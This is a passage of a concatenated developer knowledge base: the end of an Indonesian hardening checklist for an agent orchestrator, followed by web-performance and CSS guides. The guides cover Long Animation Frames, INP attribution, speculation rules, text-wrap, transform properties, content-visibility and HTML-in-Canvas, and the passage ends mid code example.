await this.logger.log('agents', 'INFO', spec.id, auditID, 'AGENT_PROFILED', `Completed in ${agentDuration}ms`, agentDuration);
```

**Definition of Done H6**:  
- [ ] Setiap agent memiliki `duration_ms` di `this.metrics`  
- [ ] Metrics ditulis ke log dan ke `cycle_summary`  

---

### 🟢 PHASE H7: Stress Testing
**Priority**: MEDIUM (setelah H1-H5 selesai)  
**Target dokumen hardening**: §3.9

Buat file `agent/tests/stress-test.js`:
- Kirim 10 task simultan ke `Orchestrator.routeTask()`
- Validasi bahwa tidak ada race condition di memory
- Validasi bahwa semua task dicatat di log
- Validasi bahwa sistem tidak crash saat satu agent timeout

---

## 🏁 Definition of "TRULY ROBUST" (Checklist Akhir)

Sistem dinyatakan **Robust** jika seluruh item ini ✅:

- [ ] **H1**: Setiap log punya `trace_id`. Satu siklus punya satu `correlation_id`.
- [ ] **H2**: Setiap error punya `type` + `retryable`. Orchestrator retry 3x.
- [ ] **H3**: Memory write terlindungi lock. Rollback tersedia di `memory/archived/`.
- [ ] **H4**: Semua scanner dieksekusi via `SandboxExecutor`. Plugin tidak terdaftar ditolak.
- [ ] **H5**: Semua event di EventBus tercatat. Duplikat diabaikan.
- [ ] **H6**: Setiap agent punya profil `duration_ms` di tiap siklus.
- [ ] **H7**: Stress test 10 task paralel berjalan tanpa crash.

---

## 🗺️ Urutan Eksekusi Rekomendasikan

```
H1 (trace_id) → H2 (retry) → H3 (locking) → H4 (sandbox) → H5 (eventbus) → H6 (profiling) → H7 (stress test)
```

> **Alasan urutan**: Tanpa `trace_id` (H1), kita buta saat debug H2-H7.  
> Tanpa retry (H2), crash di H3-H7 tidak bisa pulih.  
> Tanpa locking (H3), stress test (H7) akan menghasilkan false positives.

---

*Generated by: NEXUS Loop Scanning (4 Iterations) | 2026-05-07*  
*Status: FINAL OUTPUT — Siap untuk Eksekusi*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, vcs]

### 📘 KNOWLEDGE: NEXUS_IDENTIFY-HEAVY-SCRIPTS.MD

# Identify heavy-running JavaScript
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Heavy-running JavaScript can have a detrimental effect on both page load performance and interactivity. Modern web applications are more heavily reliant on JavaScript than ever before, from multiple sources. These include the application code itself (and the framework code it relies on), as well as third-party scripts that add functionality like chat widgets and video players. Behind-the-scenes analytics and marketing scripts are also common contributors that are all too easy to forget.

Identifying root causes of an unresponsive web page can be tricky with certain expertise required to run web performance tracing or profiling and how to interpret the results. Additionally field data is often very different to lab data, which only replicates a small subset of real user scenarios. This can make it difficult to identify the root causes of poor performance, especially for interactions.

The Long Animation Frames API is a lightweight API that can be used to identify heavy-running JavaScript in the field. A heavy-running script can be either a single long-running script, or a script that runs multiple times during the page lifecycle.

## How to implement

Long animation frames are monitored using the `PerformanceObserver` interface. It emits a `long-animation-frame` entry when an animation frame takes longer than 50ms to render. The entry contains information about the long animation frame, including the duration of the frame and the scripts that were executed during the frame.

The `long-animation-frame` entry contains a `scripts` property which is an array of `PerformanceScript` objects. Each `PerformanceScript` object contains information about the script that was executed during the long animation frame, including the `sourceURL` and `duration` of the script.

### Example of identifying the longest running scripts that contribute to long animation frames

```javascript
// Accumulate all script entries across the page lifecycle so no
// data is lost between observer callbacks.
const allScripts = [];

const observer = new PerformanceObserver(list => {
  // Collect all script entries across frames to find the biggest offenders.
  allScripts.push(...list.getEntries().flatMap(entry => entry.scripts));

  // Group by sourceURL so you can identify which scripts contribute
  // the most total time, even if each individual invocation is short.
  const scriptSource = [...new Set(allScripts.map(script => script.sourceURL))];
  const scriptsBySource = scriptSource.map(sourceURL => ([sourceURL,
      allScripts.filter(script => script.sourceURL === sourceURL)
  ]));
  const processedScripts = scriptsBySource.map(([sourceURL, scripts]) => ({
    sourceURL,
    count: scripts.length,
    totalDuration: scripts.reduce((subtotal, script) => subtotal + script.duration, 0)
  }));

  // Only include scripts above a certain threshold to reduce noise.
  const heavyScripts = processedScripts.filter(script => {
    return script.totalDuration > 100;
  });

  // Sort by total duration so the worst offenders appear first,
  // making it easier to prioritize optimization efforts.
  heavyScripts.sort((a, b) => b.totalDuration - a.totalDuration);

  // Log to the console for local debugging. In production, replace
  // this with a call to send the data to your analytics service.
  console.table(heavyScripts);
});

// Use buffered: true to capture any long frames that occurred before
// this observer was registered.
observer.observe({type: 'long-animation-frame', buffered: true});
```

## Best Practices

- **DO** prefer the Long Animation Frames API over alternatives like the JS Self-Profiling API, which carries higher runtime overhead.
- **DO** summarize the key information as the Long Animation Frames API contains a lot of detail.
- **DO** send the required information to an analytics service in production.

## Browser support and fallback strategies

Long animation frames has limited availability.
Supported by: Chrome 123 (Mar 2024) and Edge 123 (Mar 2024).
Unsupported in: Firefox and Safari..

The Long Animation Frames API is ignored by browsers that do not support it, so it can be safely used without fallbacks. In most cases the performance opportunities it identifies will apply to other browsers as well.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_IDENTIFY-INP-CAUSES.MD

# Identify causes of poor INP
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Poor responsiveness to interactions leads to a poor impression of a page being slow or even completely broken. Interaction to Next Paint (INP) is a metric based on the Event Timing API. It measures the worst interaction (minus some outliers) as a measure of the page's responsiveness.

Identifying root causes of an unresponsive web page can be tricky especially as it depends on user interactions and environmental conditions such as device capabilities and network conditions. This makes it even more difficult to diagnose compared to a more repeatable and predictable scenario like page load. Lab data only replicates a small subset of real user scenarios so measuring the causes of slow INP in the field is essential.

The Event Timing API allows for splitting the INP duration into three subparts: Input Delay (processing that is already happing when the interaction happens), Processing Duration (delays due as a direct result of the interaction), and Presentation Delay (delays that are due to rendering the next frame after the interaction). This helps identify if the issue is in other code, the interaction JavaScript code, or browser processing rendering updates respectively rather than jumping straight to the interaction code.

It is possible to gather further insights for JavaScript code delaying an interaction. A full performance trace using the JS Self-Profiling API is a heavyweight solution that is liable to cause performance problems. The Long Animation Frames API is a lightweight API that can be used to identify slow running JavaScript in the field for INP interactions.

## How to implement

Calculating INP from the raw Event Timing API is complicated and has several nuances. You are advised to use a RUM tool or library to gather this data.

`web-vitals` is an open-source library from Google that calculates the Core Web Vitals including INP, and also includes subparts and long animation frame data for the INP interaction.

## Get attributions for INP interactions using web-vitals library

The `web-vitals` library is a tiny library used to measure Core Web Vitals and other performance metrics. The `onINP()` function can be used to identify the slowest interaction and includes information about the INP subparts and scripts that were executed during the interaction using the Long Animation Frames API.

```javascript
// Use the attribution build to get Long Animation Frame data
// alongside the INP metric value.
import { onINP } from 'web-vitals/attribution';

onINP((metric) => {
  // Beacon script attribution for the longest script during the INP
  // interaction, so you can identify the root cause in production.
  navigator.sendBeacon(
    '/analytics',
    JSON.stringify({
      name: 'INP',
      value: metric.value,
      // These fields give the INP subparts:
      inputDelay: metric.attribution.inputDelay,
      presentationDelay: metric.attribution.presentationDelay,
      processingDuration: metric.attribution.processingDuration,
      interactionTarget: metric.attribution.interactionTarget,
      // These fields identify which script function was responsible
      // for the longest processing during the INP interaction.
      invokerType: metric.attribution.longestScript.entry?.invokerType,
      sourceURL: metric.attribution.longestScript.entry?.sourceURL,
      sourceFunctionName: metric.attribution.longestScript.entry?.sourceFunctionName,
      sourceCharPosition: metric.attribution.longestScript.entry?.sourceCharPosition,
      // subpart indicates which phase (input delay, processing, or
      // presentation delay) the longest script overlapped with most.
      subpart: metric.attribution.longestScript.subpart,
      intersectingDuration: metric.attribution.longestScript.intersectingDuration
    })
  );
});
```

## Best Practices

- **DO** use INP subparts initially to identify whether the delay is already running JavaScript (input delay), the event handlers JavaScript for the interaction (processing duration), or the subsequent rendering (presentation delay).
- **DO** attempt to identify the biggest blocking JavaScript as additional detail, particularly for input delay, and processing duration.
- **DO** prefer the Long Animation Frames API for providing this further detail over alternatives like the JS Self-Profiling API, which carries higher runtime overhead.
- **DO** use the `web-vitals` library if no other RUM solution is in place. It can identify the INP interaction and includes information about the subparts and the scripts that were executed during the interaction (using the Long Animation Frames API).
- **DO** beacon back the required information to an analytics service rather than just log it locally.

## Browser support and fallback strategies

Baseline status for Event timing: Newly available. It's been Baseline since 2025-12-12.
Supported by: Chrome 76 (Jul 2019), Edge 79 (Jan 2020), Firefox 89 (Jun 2021), and Safari 26.2 (Dec 2025).

The Event Timing API is available in most modern browsers and is necessary to calculate INP and the INP subparts. For browsers that do not support this API INP cannot be measured.

Long animation frames has limited availability.
Supported by: Chrome 123 (Mar 2024) and Edge 123 (Mar 2024).
Unsupported in: Firefox and Safari.

The Long Animation Frames API provides optional, additional details. It can be safely used without fallbacks. In most cases the performance opportunities it identifies will apply to other browsers as well.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_IMPROVE-NEXT-PAGE-LOAD-PERFORMANCE.MD

# Improve next page load performance
> **VERSION**: v1 | **Last Updated**: 26/05/2026


One of the most effective ways to improve page load performance for users navigating a site is to initiate loading the next page they're about to visit *before* they visit it. This can be done through a technique called speculative loading using the Speculation Rules API.

## How it works

Speculative loading works by using JSON-based speculation rules to tell the browser about links that can be prefetched or prerendered improving page load performance when user clicks on them.

The rules can either be a hardcoded list of URLs a `urls` key (known as a list rule), or with a `where` key containing a set of href and CSS selectors used to find links on the page (known as a `document` rule).

Rules can also include an optional `eagerness` property that specifies when the page should be prefetched or prerendered. The `eagerness` property can be set to `immediate`, `eager`, `moderate`, or `conservative`. `immediate` speculates as soon as possible, while the others wait for user signals such as hovering for a short period, for a longer period, or starting to click on the page respectively.

Rules can be combined with different eagerness settings to prefetch eagerly and then prerender when the user interacts more.

## When to use it

Speculative loading is especially useful for static pages, where the content is not likely to change often, and where pages are cheaper to produce—especially if cached at the edge. It can also be used for dynamic pages, but it is important to be careful about the potential for stale content.

Speculative loading is typically used for same-origin links, though more advanced options allow for some cross-origin speculation. This guide concentrates on the more-common same-origin use case.

More eager speculative loading is a good choice for pages that are likely to be visited next, such as a headline article or the next page in a stepped process like a learning a course.

Less eager speculative loading is a good choice when it is less obvious what the user will do next, when there are many links on the page, each equally likely to be visited. By waiting for more signals, such as hovering, or starting to click on the page, you can get a head-start on the next page and improve the user experience, even if it is not fully prefetched or prerendered.

Similarly, prefetch is a more conservative choice than prerender, using less resources (on both the client and the server side) but providing less benefit to the user. It is a good choice for initial implementation, expanding to prerender later when the developer explicitly requests it.

## How to use it

Speculation rules have a JSON-based format and can be included in a `<script type="speculationrules">` tag. The rules can be included in the `<head>` or `<body>` of the document, or can be dynamically added using JavaScript.

A `tag` can also be used, either at a global level or on a per-rule basis. When set, this tag will be included in the `Sec-Speculation-Tags` header, and allows you to identify server-side which speculations were made.

### Example of a simple URL list rule for prefetching predefined URLs

```html
<script type="speculationrules">
  {
    "tag": "product-page-speculations",
    "prefetch": [
      {
        "urls": ["/product/1", "/product/2", "/product/3"]
      }
    ]
  }
</script>
```

### Example of a simple document rule for prerendering all same-origin links on a page

```html
<script type="speculationrules">
  {
    "tag": "all-links-speculations",
    "prerender": [{
      "where": { "href_matches": "/*" }
    }]
  }
</script>
```

### Example of a complex document rule for prerendering links with exclusions for interactive sites

```html
<script type="speculationrules">
  {
    "tag": "speculations-with-exclusions",
    "prerender": [{
      "where": {
        "and": [
          { "href_matches": "/*" },
          { "not": {"href_matches": "/wp-admin"}},
          { "not": {"href_matches": "/*\\?*(^|&)add-to-cart=*"}},
          { "not": {"selector_matches": ".do-not-prerender"}},
          { "not": {"selector_matches": "[rel~=nofollow]"}}
        ]
      }
    }]
  }
</script>
```

### Example of a mixed rule set

This example shows a rule set that prefetches all links eagerly, and then goes further than this to prerender those same links when it gets more signals with `moderate` eagerness.

```html
<script type="speculationrules">
  {
    "prefetch": [{
      "tag": "prefetch-speculations",
      "where": { "href_matches": "/*" },
      "eagerness": "eager"
    }],
    "prerender": [{
      "tag": "prerender-speculations",
      "where": { "href_matches": "/*" },
      "eagerness": "moderate"
    }]
  }
</script>
```

## Best Practices

- **DO** use speculation rules to prefetch and prerender pages that the user is likely to visit next.
- **DO** use speculation rules for static sites, where the content is not likely to change often, and where pages are cheaper to produce—especially if cached at the edge.
- **DO** take more care when using speculation rules for dynamic pages, where the content is more likely to change often, may become out of date, and where pages are more expensive to produce.
- **DO** prefer document rules over list rules, as they are more flexible, allow the same rule to be shared across multiple pages, and can be used to prefetch and prerender pages that are not known in advance.
- **DO** consider the trade-offs between prefetch and prerender, and choose the appropriate one for your use case. Prerender is more expensive than prefetch and can cause more unintended side effects in complex applications that display dynamic state, but provides a better user experience. Ask the developer for their preference if unsure.
- **DO** consider the trade-offs between the different `eagerness` levels, and choose the appropriate one for your use case. More eager speculation provides a better user experience but uses more resources and can cause more unintended side effects in complex applications that display dynamic state. Ask the developer for their preference if unsure.
- **DO NOT** overuse speculation rules, for example, to speculate every link on the page. Browsers have limits (2 speculations for non-eager speculations). `immediate` should only be used for a very small number of links.
- **DO NOT** speculate URLs that likely trigger state changes, like `/logout` or `/add-to-cart`, and explicitly exclude them from your speculation rules if they are likely to be included in document rules.
- **DO NOT** use speculation rules on Single Page Applications (SPAs). Speculation rules are designed for multi-page applications (MPAs) where the browser navigates to a new document on each navigation. In SPAs, the browser does not navigate to a new document on each navigation, so speculation rules will not work as expected.

## Browser support and fallback strategies

Speculative loading is a new feature, and as such, is not supported in all modern browsers (Baseline limited availability).

However, speculative loading is a progressive enhancement. It is perfectly safe to use as an enhancement, and is highly recommended given the potential performance benefits. If a browser does not support speculation rules, it will simply ignore them.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, performance, api]

### 📘 KNOWLEDGE: NEXUS_IMPROVE-TEXT-LAYOUT-AND-LEGIBILITY.MD

# Improve Text Layout and Legibility
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The layout of text, particularly at the ends of lines and and ends of paragraphs, can impact the legibility and aesthetic appeal of a page. CSS provides several text wrapping options that can improve specific use cases.

For short text blocks like headings, use `text-wrap: balance`. This property instructs the browser to distribute text as evenly as possible across lines, creating a more symmetrical appearance.

The `text-wrap: pretty` CSS property allows you to improve the typographic quality of body text by enabling a more sophisticated wrapping algorithm. It is specifically designed to prevent "orphans" (single words on the last line of a paragraph) and create a more pleasing visual "rag" for long blocks of text.

## Implementation

### 1. **Identify text elements**: 

For `text-wrap: balance`, select short text blocks like headings and table headers. Avoid elements that have visible boxes such as borders or backgrounds, as this can create unexpected visually empty areas in the layout.

For `text-wrap: pretty`, select elements potentially containing long runs of text where orphaned words (runts) or poor line breaks are most noticeable. This includes the following elements:
  - `<p>`
  - `<blockquote>`
  - `<li>`
  - Any other element potentially containing long runs of text.

#### Choosing the Right Wrapping Method

| Criteria | `text-wrap: balance` | `text-wrap: pretty` | `text-wrap: wrap` (Default) |
| :--- | :--- | :--- | :--- |
| **Best For** | Short blocks (Headings, Titles) | Long blocks (Paragraphs, Lists) | Performance-critical content |
| **Visual Goal** | Symmetrical line lengths | Avoiding orphans ("runts") | Fast, standard wrapping |
| **Line Constraints** | Up to 6–10 lines (algorithm limit) | Best for 3 to many lines | No limit |
| **Perf Cost** | **High**: Binary search algorithm | **Medium**: Look-back algorithm | **Low**: Standard greedy algorithm |

### 2. **Apply the chosen wrapping**: 

Apply `text-wrap: balance` specifically to short, multi-line elements such as headings (`h1`-`h6`), subheadings, or pullquotes.

```css
/* Target specific heading elements for balanced wrapping */
h1, h2, h3, h4, h5, h6 {
  /* Enables balanced line-breaking logic */
  text-wrap: balance;
}
```

Use `text-wrap: pretty` to enable an optimized algorithm that evaluates the last few lines of a paragraph to find the best break points.

```css
/* Apply to multi-line text blocks to prevent orphaned words */
p, blockquote, li, .pretty-text {
  /* Enables pretty line-breaking logic for body copy */
  text-wrap: pretty;
}
```

### Critical Constraints and Performance

#### text-wrap: balance

*   **Line Limit:** Browsers impose a limit on the number of lines they will attempt to balance to maintain performance (typically **6 lines** in Chromium and **10 lines** in Firefox). If the text exceeds this limit, the browser reverts to standard `wrap` behavior. Avoid using `text-wrap: balance` on text blocks that are likely to exceed these limits.
*   **Targeted Application:** DO NOT apply `text-wrap: balance` globally (e.g., `* { text-wrap: balance; }`). The iterative "binary search" algorithm used by browsers is computationally expensive. Limit its use to specific, short text elements.
*   **Interaction with Width:** `text-wrap: balance` does not change the container's width (`inline-size`). It only affects how text wraps *within* that width. This can leave empty space at the end of the container, which may affect layouts relying on full-width text blocks.

#### text-wrap: pretty

*   **Performance vs. Quality**: MANDATORY: `text-wrap: pretty` is more computationally expensive than the default `wrap` (greedy) algorithm because it evaluates multiple lines (typically the last four) to optimize the break points. Avoid applying it globally to every element if your page has an extreme amount of text content.
*   **Best for multi-line text**: The benefits of `pretty` are most apparent in paragraphs of three or more lines. It has little to no effect on short, single-line text.
*   **Browser-specific behavior**: Be aware that implementation details vary. Chromium-based browsers typically focus on the last four lines, while other engines may evaluate the entire paragraph.

### Fallback strategies

Baseline status for text-wrap: balance: Newly available. It's been Baseline since 2024-05-13.
Supported by: Chrome 114 (May 2023), Edge 114 (Jun 2023), Firefox 121 (Dec 2023), and Safari 17.5 (May 2024).
text-wrap: pretty has limited availability.
Supported by: Chrome 117 (Sep 2023), Edge 117 (Sep 2023), and Safari 26 (Sep 2025).
Unsupported in: Firefox.

In browsers that do not support `text-wrap: balance` or `text-wrap: pretty`, the property is ignored, and the text will wrap using the default `wrap` behavior. This is a progressive enhancement that gracefully degrades to standard typography. This ensures that your content remains perfectly readable across all browsers while providing a superior experience to those that support it.

For critical layouts where refined text layout is a requirement, use a JavaScript library, but be aware that this may be slow and cause performance issues.

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, performance]

### 📘 KNOWLEDGE: NEXUS_INDIVIDUAL-TRANSFORM-PROPERTIES.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

The `transform` property allows you to apply multiple transformations in a specified order, but any changes to a single transformation require re-specifying the entire transformation chain. This makes it tricky to animate or transition a single transformation.

The individual CSS transform properties (`translate`, `rotate`, and `scale`) allow you to apply transformations independently of the `transform` property. This approach makes it simpler to override a single transformation, for instance on `:hover`.

### Key Implementation Details

Individual transform properties are always applied in a **fixed order**, regardless of their order in your CSS:
1. `translate`
2. `rotate`
3. `scale`
4. `transform` (applied last)

If you require a different order (e.g., scaling *before* rotating), you must continue using the `transform` property functions.

Transform functions do not override the individual transform properties. In other words, `scale: 2; transform: scale(3);` will first scale by 2x, then again by 3x, for a total of 6x.

### Preventing Unexpected Changes in Stacking Contexts and Containing Blocks

The `transform` property and individual transform properties impact the layout and rendering of the page and may cause unexpected behavior with the z-index or anchor positioning. MANDATORY: If an element may have a transform applied as part of a state change like `:hover`, or a transition or animation, apply an identity transformation to the base element. This ensures that the element's stacking context and containment do not change when a transform is applied.

```css
.element{
  /* MANDATORY: Apply identity transformations for properties that will
     change on state changes (like :hover). This prevents unexpected layout
     or z-index shifts caused by creating a new stacking context only on hover. */
  translate: 0px;
  rotate: 0deg;
  scale: 1;
}
.element:hover{
  translate: 10px 10px;
  rotate: 20deg;
  scale: 0.8;
}
```

### Independent Animation and Transitions

The primary benefit is the ability to define overlapping animations or transitions that target different properties without conflict.

```css
.card {
  /* Define independent animations that don't overwrite each other */
  animation: float 3s infinite ease-in-out;
  
  /* Transition only the scale property for hover states */
  transition: scale 0.3s ease;

  /* Establish the base scale to prevent a sudden stacking context shift when transitioning on hover. */
  scale: 1;
}

.card:hover {
  /* Only the scale changes; the 'float' animation (translate) continues uninterrupted */
  scale: 1.05;
}

@keyframes float {
  0%, 100% { translate: 0 0; }
  50% { translate: 0 -10px; }
}
```

### Fallback strategies

Baseline status for Individual transform properties: Widely available. It's been Baseline since 2022-08-05.
Supported by: Chrome 104 (Aug 2022), Edge 104 (Aug 2022), Firefox 72 (Jan 2020), Safari 14.1 (Apr 2021), and Safari iOS 14.5 (Apr 2021).

For browsers that do not support individual transform properties, use the traditional `transform` property. Note that this requires re-declaring the entire transform stack if you want to modify one part in a different state.

```css
.element {
  /* Base transform */
  transform: translate(100px, 0) rotate(45deg);
  /* Specify the identity for the scale property. */
  scale: 1;
}

@supports not (translate: 0px) {
  .element:hover {
    /* Fallback: Must repeat translate and rotate even if only scale changes */
    transform: translate(100px, 0) rotate(45deg) scale(1.1);
  }
}

@supports (translate: 0px) {
  .element:hover {
    /* Modern: Only declare the change */
    scale: 1.1;
  }
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_INTERACTIONS-IN-COMPLEX-LAYOUTS.MD

# Optimizing Interactions in Complex Layouts
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Maintain high frame rates (60FPS) and eliminate interaction latency during drag-and-drop or heavy mutations in complex, multi-column layouts like Kanban boards or massive data grids.

## Overview

In complex layouts, performing a minor change to a single item—such as dragging a card or editing a cell—can trigger a chain reaction of style and layout calculations that forces the browser to reflow the entire page. This results in dropped frames and high Interaction to Next Paint (INP) latency.

By applying `content-visibility: auto` to self-contained layout regions (like columns in a Kanban board), you can isolate rendering work.

### Mechanism for On-Screen Elements

It is important to understand how `content-visibility: auto` benefits elements that are **already visible on the screen**:

*   For visible elements, the browser **does not** skip rendering.
*   Instead, the performance benefit comes entirely from the **CSS containments** that the property automatically enforces (i.e., layout, style, and paint).
*   This containment acts as a boundary. If a mutation occurs inside a container with containment applied, the browser knows that the changes cannot affect the geometry or styles of elements outside that container. The page reflow is isolated, preventing a global layout recalculation.

## Implementation

### 1. Identify Containment Regions

Apply `content-visibility: auto` to large, self-contained containers that represent isolated layout units (e.g., grid columns, board lists).

```css
.board-column {
  /* Apply containment boundaries */
  content-visibility: auto;
  
  /* Mandatory: Provide a placeholder size to prevent layouts shifts.
     For a vertical column, define a reasonable width and height. 
     - 'auto' is optional and enables the browser to remember the actual size
       once rendered. It must be paired with a <length> value to be used for
       the first render.
     - '300px' is the estimated width of this element. This can be any valid
      CSS <length> value. Replace it with the expected width of your
      component.
     - '800px' is the estimated height of this element. This can be any valid
      CSS <length> value. Replace it with the expected height of your
      component.
   */
  contain-intrinsic-size: auto 300px auto 800px;
}
```

### 2. Manage Interactions

Ensure that interactions occurring inside the column benefit from the containment.

```javascript
// Example: Drag and drop item movement
function moveItemToColumn(itemId, columnId) {
  const item = document.getElementById(itemId);
  const column = document.getElementById(columnId);
  
  // The browser will only reflow this specific column, 
  // not the entire board layout!
  column.appendChild(item);
}
```

### Fallback strategies

Baseline status for content-visibility: Newly available. It's been Baseline since 2025-09-15.
Supported by: Chrome 108 (Nov 2022), Edge 108 (Dec 2022), Firefox 130 (Sep 2024), and Safari 26 (Sep 2025).

The property degrades gracefully. In unsupported browsers:
*   The property is ignored, and mutations will cause the standard global reflow.
*   To achieve a similar isolation effect in older browsers, you can fall back to applying containment manually:

```css
@supports not (content-visibility: auto) {
  .board-column {
    /* Manual fallback for containment */
    contain: layout style paint;
  }
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_INTERACTIVE-CONTENT-IN-3D-SCENES.MD

# Enable interactive HTML content in 3D scenes
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The HTML-in-Canvas API allows rendering real DOM directly inside a canvas element. When applied to 3D rendering contexts like WebGL, WebGPU, or Three.js, adding the `layoutsubtree` attribute enables descendant HTML elements to be seamlessly projected into the 3D scene. Crucially, because the HTML elements remain part of the active DOM layout tree, they retain full interactivity—allowing users to click buttons, select text, and trigger focus states natively without requiring complex raycasting or custom event handling.

## How to implement

### WebGL and WebGPU
When using WebGL or WebGPU, follow these steps:

1. Check if HTML-in-Canvas is supported in the browser:

```
if ('requestPaint' in HTMLCanvasElement.prototype) {
  // Use HTML in Canvas API
} else {
  // Use fallback strategy
}
```

2. Initialize `<canvas>` to support descendant HTML elements by adding the `layoutsubtree` attribute to the `<canvas>` HTML element. Place your HTML content inside the `<canvas>` element with the `layoutsubtree` attribute.

```html
<canvas id="canvas" layoutsubtree>
  <div id="html-content"></div>
</canvas>
```

3. Scale your canvas grid to match the device scale factor to prevent blurriness:

```js
const observer = new ResizeObserver(([entry]) => {
  const dpc = entry.devicePixelContentBoxSize;
  canvas.width = dpc
    ? dpc[0].inlineSize
    : Math.round(entry.contentRect.width * window.devicePixelRatio);
  canvas.height = dpc
    ? dpc[0].blockSize
    : Math.round(entry.contentRect.height * window.devicePixelRatio);
});

const supportsDevicePixelContentBox =
  typeof ResizeObserverEntry !== "undefined" &&
  "devicePixelContentBoxSize" in ResizeObserverEntry.prototype;
const options = supportsDevicePixelContentBox
  ? { box: "device-pixel-content-box" }
  : {};
observer.observe(canvas, options);
```

4. Render the HTML content to the canvas inside a `canvas.onpaint` event handler:

- In WebGL context, use the `texElementImage2D` method:

```js
canvas.onpaint = () => {
  if (gl.texElementImage2D) {
    gl.texElementImage2D(
      gl.TEXTURE_2D,
      0,
      gl.RGBA,
      gl.RGBA,
      gl.UNSIGNED_BYTE,
      uiElement,
    );
  }
};
```

- In WebGPU context, use the `copyElementImageToTexture` method:

```js
canvas.onpaint = () => {
  root.device.queue.copyElementImageToTexture(valueElement, 512, 128, {
    texture: targetTexture,
  });
};
```

When using a `requestAnimationFrame` loop to render the scene, call `canvas.requestPaint()` within the loop to ensure that the HTML content is rendered to the canvas. Make sure you only re-render the canvas if there has been an update to the descendant HTML elements:

```js
function render() {
  // Request to update the canvas
  canvas.requestPaint();
  requestAnimationFrame(render);
}
requestAnimationFrame(render);

canvas.onpaint = (event) => {
  if (event.changedElements && event.changedElements.length > 0) {
    // Update the texture with texElementImage2D, and update the CSS transform as shown in step 6
  }
};
```

6. Update the CSS transform.

The browser needs to map from the 3D coordinate space into the CSS coordinate space using a viewport transform. To facilitate this, do the following:

- Convert the MVP Matrix to DOM Matrix.
- Normalize the HTML element. HTML elements are sized in pixels (for example, 200px wide). WebGL, however, usually treats objects as "unit squares", for example, ranging from 0 to 1. If you don't normalize, your 200px button will look 200 times larger.
- Map to the canvas viewport. This step is the "re-scaling" phase: it stretches that unit-space math back out to match the actual pixel dimensions of your `<canvas>` element on the screen. It also flips the Y-axis, because in WebGL, up is positive, but in CSS, down is positive.
- Calculate the final transform. Multiply the matrices in order: Viewport * MVP * Normalization. Combining them into one final transform produces a "map" that tells the browser exactly where that HTML element layer should sit to align with the 3D drawing.
- Apply the transform to the HTML element. This moves the HTML element layer to sit directly on top of its rendered pixels. This ensures that when a user clicks a button or selects text, they are actually hitting the real HTML element.

```js
if (canvas.getElementTransform) {
  // 1. Convert WebGL MVP Matrix to DOM Matrix
  const mvpDOM = new DOMMatrix(Array.from(htmlElementMVP));

  // 2. Normalize the HTML element (Canvas Grid pixels -> WebGL Model Space)
  const dprX = canvas.width / canvas.clientWidth;
  const dprY = canvas.height / canvas.clientHeight;
  const gridWidth = targetHTMLElement.offsetWidth * dprX;
  const gridHeight = targetHTMLElement.offsetHeight * dprY;

  const toGLModel = new DOMMatrix()
    // Scale pixels to 1 unit, flip Y (as in CSS it points down, and in WebGL it points up)
    .scale(1 / gridWidth, -1 / gridHeight, 1 / gridHeight)
    // Center the origin: (0,0) becomes (-width/2, -height/2) before scaling
    .translate(-gridWidth / 2, -gridHeight / 2);

  // 3. Map to the canvas viewport
  const clipToCanvasViewport = new DOMMatrix()
    // Move center (0,0) to center of canvas
    .translate(canvas.width / 2, canvas.height / 2)
    // Scale normalized clip (-1..1) to viewport size
    .scale(canvas.width / 2, -canvas.height / 2, canvas.height / 2);

  // 4. Multiply: (Clip -> Pixels) * (MVP) * (pixels -> unit square)
  const screenSpaceTransform = clipToCanvasViewport
    .multiply(mvpDOM)
    .multiply(toGLModel);

  // 5. Apply to the transform
  const computedTransform = canvas.getElementTransform(
    targetHTMLElement,
    screenSpaceTransform,
  );
  targetHTMLElement.style.transform = computedTransform.toString();
}
```

7. [Troubleshooting] If the developer is experiencing a mismatch in the DOM logical layout in 3D even after applying the CSS transform from step 5, check if the developer is experiencing the issue in Chromium 148 or earlier. If that's the case, check if `transform.is2D` is correctly set to false for a 3D DOMMatrix. If not, re-initialize the DOMMatrix which corrects `is2D` to be false before applying the transform to the target HTML element. This issue is fixed in Chromium 149+, and if the developer is experiencing it in newer Chromium versions, the is2D value is not the cause:

```js
if (transform.is2D) {
  // Workaround for Chromium bug https://crbug.com/512171941
  // affecting Chrome versions under 149 where `transform.is2D`
  // is incorrectly true for a 3D DOMMatrix. The assignment
  // below re-initializes the DOMMatrix which corrects is2D to be false.
  transform = DOMMatrix.fromFloat64Array(transform.toFloat64Array());
}
targetHTMLElement.style.transform = computedTransform.toString();
```

### Three.js

1. Check if HTML-in-Canvas is supported in the browser:

```
if ('requestPaint' in HTMLCanvasElement.prototype) {
  // Use HTML in Canvas API
} else {
  // Use fallback strategy
}
```

2. Create a custom geometry and material for the HTML content.

3. Pass the DOM element into THREE.HTMLTexture:
```js
  material.map = new THREE.HTMLTexture(element);
  mesh = new THREE.Mesh( geometry, material );
  scene.add( mesh );
```

## Example code

### WebGL Canvas

```html
<canvas id="canvas" layoutsubtree style="width: 400px; height: 400px;">
  <div id="ui-element">
    <p>WebGL UI Element</p>
    <button>Action</button>
  </div>
</canvas>

<script>
  const canvas = document.getElementById("canvas");
  const gl = canvas.getContext("webgl");
  const uiElement = document.getElementById("ui-element");

  // Setup WebGL texture...
  const texture = gl.createTexture();
  gl.bindTexture(gl.TEXTURE_2D, texture);

  canvas.onpaint = () => {
    // 1. Update texture with HTML content
    if (gl.texElementImage2D) {
      gl.texElementImage2D(
        gl.TEXTURE_2D,
        0,
        gl.RGBA,
        gl.RGBA,
        gl.UNSIGNED_BYTE,
        uiElement,
      );
    }

    // ... Render your 3D scene here, calculating htmlElementMVP matrix ...

    // 2. Sync DOM position with 3D scene
